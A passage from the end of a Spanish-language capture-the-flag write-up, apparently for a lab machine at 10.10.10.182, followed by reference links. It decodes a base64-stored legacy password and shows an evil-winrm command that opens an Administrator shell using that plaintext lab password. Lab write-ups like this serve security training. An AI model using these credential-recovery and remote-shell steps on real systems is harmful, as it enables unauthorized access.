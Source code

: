Se puede visualizar el parámetro **cascadeLegacyPwd** el cual tiene un valor en base64. Procedemos a extraer el texto plano para posteriormente obtener una shell como **Administrator**.

`echo YmFDVDNyMWFOMDBkbGVz | base64 -d`

`evil-winrm -i 10.10.10.182 -u Administrator -p baCT3r1aN00dles`

![21](images/21.png)



## Referencias
https://ivanitlearning.wordpress.com/2019/03/24/root-me-ldap-null-bind/ \
https://www.raymond.cc/blog/crack-or-decrypt-vnc-server-encrypted-password/ \
https://github.com/Hackplayers/evil-winrm \
https://github.com/icsharpcode/ILSpy/releases \
https://dotnetfiddle.net/ \
https://www.devglan.com/online-tools/aes-encryption-decryption \
https://www.poweradmin.com/blog/restoring-deleted-objects-from-active-directory-using-ad-recycle-bin/